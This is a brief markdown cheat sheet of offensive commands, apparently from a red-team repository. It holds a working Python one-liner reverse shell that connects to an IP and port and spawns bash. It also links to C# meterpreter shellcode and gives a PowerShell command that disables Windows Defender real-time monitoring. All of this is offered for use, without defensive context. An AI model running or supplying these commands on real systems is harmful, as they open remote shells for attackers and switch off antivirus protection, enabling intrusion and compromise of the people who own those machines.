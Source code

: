 # Reverse Shells and Web Shells

#### Python one liner TCP reverse shell
```python3 -c 'IP="127.0.0.1";PORT=4444;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

[C# meterpreter shellcode](https://github.com/redteaminterac/shells/blob/main/csharp/meterpreterShellcode.cs)

Stop Windows Defender
```Set-MpPreference -DisableRealtimeMonitoring $true```
